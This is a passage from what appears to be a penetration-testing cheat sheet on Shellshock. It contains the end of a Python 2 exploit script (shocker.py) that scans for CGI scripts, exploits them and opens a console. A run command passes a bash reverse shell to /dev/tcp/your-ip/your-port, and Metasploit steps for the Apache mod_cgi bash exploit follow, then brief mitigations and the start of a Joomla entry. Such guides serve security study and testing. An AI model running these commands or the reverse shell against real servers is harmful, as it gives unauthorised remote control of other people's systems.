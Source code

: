 ```python
        print "[+] Single target '%s' being used" % cgi_list[0]
    else:
        cgi_list = import_cgi_list_from_file(args.cgilist)

    # Check hosts resolve and are reachable on the chosen port
    confirmed_hosts = check_hosts(host_target_list, port, verbose)

    # Go through the cgi_list looking for any present on the target host
    target_list = scan_hosts(protocol, confirmed_hosts, port, cgi_list, proxy, verbose)

    # If any cgi scripts were found on the target host try to exploit them
    if len(target_list):
        successful_targets = do_exploit_cgi(proxy, target_list, command, verbose)
        if len(successful_targets):
            ask_for_console(proxy, successful_targets, verbose)
        else:
            print "[-] All exploit attempts failed"
    else:
        print "[+] No targets found to exploit"

__version__ = '1.1'
if __name__ == '__main__':
    main()
```

Then run the script as below

```
python2 shocker.py -H targer-ip --command "/bin/bash -i > /dev/tcp/your-ip/your-port 0<&1 2>&1" -c /cgi-bin/user.sh --verbose
```

**With Metasploit**

```
msf > search ShellShock msf > use exploit/multi/http/apache_mod_cgi_bash_env_exec 
msf exploit(exploit/multi/http/apache_mod_cgi_bash_env_exec) > show options 
msf exploit(exploit/multi/http/apache_mod_cgi_bash_env_exec) > set RHOST [target-ip]
msf exploit(exploit/multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/example.sh
msf exploit(exploit/multi/http/apache_mod_cgi_bash_env_exec) > check
```

**Mitigation**

```
Upgrade to bash beyond 4.3
Disable shell callouts in /cgi-bin
Leave /cgi-bin empty and secure its write permissions
```

### Joomla

#### Definition

Joomla is a content management system used to create and manage web blogs Official URL
